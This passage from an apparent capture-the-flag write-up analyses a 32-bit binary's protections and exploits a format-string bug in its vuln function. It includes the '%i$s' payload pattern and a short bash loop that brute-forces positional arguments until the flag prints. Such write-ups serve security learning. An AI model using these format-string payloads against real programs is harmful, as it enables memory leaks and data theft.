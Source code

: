 - The analysation reveals that the file:
    - is not-stripped so maybe we can use this to our help in future steps
    - is an executable that is not Position Independent 
    - runs on the 32-bit calling convention
    - NX is enebled which prevents data of the program being used for execution (it means that certain parts of the program are not executable)
    - there is No canary found which is good for us as we don't need to worry about bypassing stack canaries 
    - Partial RELRO is enebled  

- Now I went and analysed the code from `vuln.c`
    - There is a function being used called `setvbuf` which I didn't know about so I went and checked it's manpages using the following command
    ```bash
    $ man 3 setvbuf
    ```
    - After all the setup in main, the main function calls the `vuln` function and this function has a potential vulnerability of format strings we could exploit in near future
    - And I saw a `readflag` function which reads out the flag

- Next I created a `flag.txt`, and made the execution of `vuln` possible

```bash
$ touch flag.txt
$ echo "SUCCESS" > flag.txt
$ chmod +x vuln
```

- So, our attack vector is the format string which means we can read the positional arguments which lead to a memory leak and potential printing of the flag using a payload such as this `%i$s` where i refers to the i-th positional argument

- Next I wrote a simple bash script to solve this chall and tested it

> _soln.sh_
```bash
#!/bin/bash
for i in {0..64}; do echo "%$i\$s" | ./vuln | grep SUCCESS; done
```

```bash
$ bash soln.sh
SUCCESS
```

